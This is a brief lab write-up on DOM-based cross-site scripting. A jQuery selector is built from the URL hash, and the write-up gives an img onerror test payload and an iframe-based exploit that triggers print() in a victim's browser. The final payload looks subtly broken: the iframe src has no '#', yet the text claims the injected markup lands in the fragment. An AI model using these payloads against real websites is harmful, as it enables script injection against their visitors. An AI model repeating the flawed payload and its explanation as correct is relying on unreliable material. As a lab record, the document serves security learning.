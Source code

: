 ## Challenge explaining

ViewSource website to see this code 
                        `$(window).on('hashchange', function(){
                            var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
                            if (post) post.get(0).scrollIntoView();
                        });`

At this script, if value decoded with h2 validated -> page will be scroll to this header.
example: https://0a25003704812defc2f370c400d100ed.web-security-academy.net/#Finding%20Inspiration

-> so change the text fragment to html code `https://0a25003704812defc2f370c400d100ed.web-security-academy.net/#<img%20src=x%20onerror=alert(1)>`
-> trigger payload.

## Solution
to solve challenge, need to triiger *print()* function in victim browser.
payload using: `<iframe src="https://0ae500dd04d979e4c374a390009a00f6.web-security-academy.net/" onload ="this.src=this.src+ '<img src=x onerror=print()>'">`
explain: that payload will be put in request body, when victim load exploit url -> src will be run + payload img (as fragment above)